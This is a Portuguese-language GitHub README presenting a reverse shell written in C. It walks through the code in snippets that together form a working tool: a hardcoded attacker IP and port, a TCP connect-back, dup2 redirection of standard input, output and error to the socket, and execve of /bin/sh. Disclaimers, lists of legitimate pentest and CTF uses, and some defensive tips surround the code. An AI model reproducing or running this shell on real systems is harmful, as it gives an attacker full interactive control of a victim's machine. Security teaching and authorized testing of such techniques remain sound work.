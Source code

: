 # 🐚 C Reverse Shell 

Este repositório contém um código de **shell reverso escrito em linguagem C**, ideal para fins educacionais, CTFs e testes de segurança autorizados.

---

## ⚠️ AVISO IMPORTANTE

Este código é **potencialmente perigoso** e pode ser utilizado de forma maliciosa. No entanto, ele também tem **aplicações legítimas** em testes de intrusão (pentest), auditorias de segurança e simulações ofensivas.

> ❗ **Nunca utilize este tipo de código em sistemas sem permissão explícita.**
> O uso indevido pode violar leis locais e internacionais.
> O autor **não se responsabiliza** por qualquer dano ou uso indevido.

---

## 🔍 O que o código faz — Explicado passo a passo

Este código é um shell reverso escrito em C. Quando executado, ele instrui a máquina (vítima) a se conectar de volta ao atacante, oferecendo um terminal interativo com os mesmos privilégios do usuário que executou o programa.

---

### 1. Definições iniciais

```c
#define REMOTE_ADDR "192.168.0.5"
#define REMOTE_PORT 1337
```

- Define o IP e a porta do atacante.  
- O código tentará conectar-se a esse IP/porta usando TCP.

---

### 2. Estrutura do socket

```c
struct sockaddr_in sa;
sa.sin_family = AF_INET;
sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
sa.sin_port = htons(REMOTE_PORT);
```

- Define o tipo de conexão (IPv4), IP de destino e porta de destino.

---

### 3. Criação e conexão do socket

```c
s = socket(AF_INET, SOCK_STREAM, 0);
connect(s, (struct sockaddr *)&sa, sizeof(sa));
```

- Cria um socket TCP e conecta ao servidor remoto (máquina atacante).

---

### 4. Redirecionamento de I/O

```c
dup2(s, 0);
dup2(s, 1);
dup2(s, 2);
```

- Redireciona entrada, saída e erro padrão para o socket:
  - stdin → socket
  - stdout → socket
  - stderr → socket

---

### 5. Execução da shell remota

```c
execve("/bin/sh", NULL, NULL);
```

- Inicia um shell interativo (`/bin/sh`) com entrada/saída ligada ao socket TCP.
- O atacante poderá interagir com a shell remotamente.

---

## ✅ Exemplos de uso legítimo

- Testes de segurança (pentest) com permissão do cliente.
- Simulações de ataque para avaliar defesa de sistemas.
- Análises forenses, educativas ou ambientes CTF.

---

## 💡 Conclusão Técnica

Este programa:

- Estabelece uma conexão reversa TCP com o atacante.
- Redireciona os descritores padrão (0, 1, 2) para o socket.
- Executa uma shell interativa com controle remoto total.
- Simples, eficaz e muito usado em exploits ou pós-exploração.

---

## 🛡️ Proteção recomendada

Para evitar que códigos como este sejam executados, algumas boas práticas incluem:

- Restringir compiladores em servidores.
- Monitorar conexões de saída.
- Usar firewalls para impedir conexões reversas suspeitas.
- Analisar uso de `execve`, `dup2`, `socket`, etc., com ferramentas de segurança.

---

## 👨‍💻 Autor

- [r0daemon](https://github.com/0daemon)

---

## 📄 Licença

Distribuído sob a [GNU GPL v3](https://www.gnu.org/licenses/old-licenses/gpl-3.0.html).

